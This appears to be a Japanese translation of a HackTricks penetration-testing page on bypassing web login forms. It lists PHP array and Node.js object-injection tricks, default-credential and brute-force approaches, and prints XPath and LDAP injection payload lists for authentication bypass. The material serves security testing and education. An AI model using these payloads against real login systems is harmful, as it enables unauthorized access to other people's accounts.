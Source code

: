 # ログインバイパス

{% hint style="success" %}
AWSハッキングを学び、練習する:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、練習する: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/)は、**スペイン**で最も重要なサイバーセキュリティイベントであり、**ヨーロッパ**で最も重要なイベントの一つです。**技術知識の促進**を使命とし、この会議はあらゆる分野の技術とサイバーセキュリティの専門家が集まる熱い交流の場です。

{% embed url="https://www.rootedcon.com/" %}

## **通常のログインをバイパスする**

ログインページを見つけた場合、バイパスするためのいくつかのテクニックを試すことができます：

* ページ内の**コメント**を確認する（下にスクロールして右に？）
* **制限されたページに直接アクセスできるか**確認する
* **パラメータを送信しない**（何も送信しないか、1つだけ送信する）
* **PHPの比較エラーを確認する:** `user[]=a&pwd=b` , `user=a&pwd[]=b` , `user[]=a&pwd[]=b`
* **コンテンツタイプをjsonに変更**し、json値を送信する（bool trueを含む）
* POSTがサポートされていないという応答が返ってきた場合、**GETリクエストでボディにJSONを送信**してみる（`Content-Type: application/json`を使用）
* nodejsの潜在的な解析エラーを確認する（[**これを読む**](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)）：`password[password]=1`
* Nodejsはそのペイロードを次のようなクエリに変換します：` SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` `` `**`password=password=1`**`;` これにより、パスワードビットが常にtrueになります。
* JSONオブジェクトを送信できる場合は、`"password":{"password": 1}`を送信してログインをバイパスできます。
* このログインをバイパスするには、**有効なユーザー名を知り、送信する必要がある**ことを忘れないでください。
* `mysql.createConnection`を呼び出す際に**`"stringifyObjects":true`**オプションを追加すると、**パラメータに`Object`が渡されたときのすべての予期しない動作をブロック**できます。
* 認証情報を確認する：
* 使用されている技術/プラットフォームの[**デフォルトの認証情報**](../../generic-methodologies-and-resources/brute-force.md#default-credentials)
* **一般的な組み合わせ**（root、admin、password、技術の名前、これらのパスワードのいずれかを持つデフォルトユーザー）。
* **Cewl**を使用して辞書を作成し、**デフォルト**のユーザー名とパスワード（ある場合）を追加し、すべての単語を**ユーザー名とパスワード**としてブルートフォースを試みる
* **より大きな辞書を使用してブルートフォース**（**[ブルートフォース](../../generic-methodologies-and-resources/brute-force.md#http-post-form)**）

### SQLインジェクション認証バイパス

[ここでは、**SQLインジェクション**を介してログインをバイパスするためのいくつかのトリックを見つけることができます](../sql-injection/#authentication-bypass)。

次のページでは、SQLインジェクションを介してログインをバイパスするための**カスタムリスト**を見つけることができます：

{% content-ref url="sql-login-bypass.md" %}
[sql-login-bypass.md](sql-login-bypass.md)
{% endcontent-ref %}

### No SQLインジェクション認証バイパス

[ここでは、**No SQLインジェクション**を介してログインをバイパスするためのいくつかのトリックを見つけることができます](../nosql-injection.md#basic-authentication-bypass)**。**

NoSQLインジェクションはパラメータの値を変更する必要があるため、手動でテストする必要があります。

### XPathインジェクション認証バイパス

[ここでは、**XPathインジェクション**を介してログインをバイパスするためのいくつかのトリックを見つけることができます](../xpath-injection.md#authentication-bypass)
```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```
### LDAPインジェクション認証バイパス

[ここでは、**LDAPインジェクション**を介してログインをバイパスするためのいくつかのトリックを見つけることができます。](../ldap-injection.md#login-bypass)
```
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```
### Remember Me

ページに「**Remember Me**」機能がある場合、その実装方法を確認し、**他のアカウントを乗っ取る**ために悪用できるかどうかを見てください。

### Redirects

ページは通常、ログイン後にユーザーをリダイレクトします。そのリダイレクトを変更して[**Open Redirect**](../open-redirect.md)を引き起こすことができるか確認してください。ユーザーを自分のウェブサイトにリダイレクトすると、情報（コード、クッキーなど）を盗むことができるかもしれません。

## Other Checks

* ログイン機能を悪用して**ユーザー名を列挙**できるか確認してください。
* パスワード/**機密**情報**フォーム**の**入力**で**自動補完**が有効になっているか確認してください：`<input autocomplete="false">`

## Automatic Tools
* [HTLogin](https://github.com/akinerkisa/HTLogin)

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/)は、**スペイン**で最も関連性の高いサイバーセキュリティイベントであり、**ヨーロッパ**で最も重要なイベントの一つです。**技術知識の促進**を使命とし、この会議はあらゆる分野の技術とサイバーセキュリティの専門家の熱い交流の場です。

{% embed url="https://www.rootedcon.com/" %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
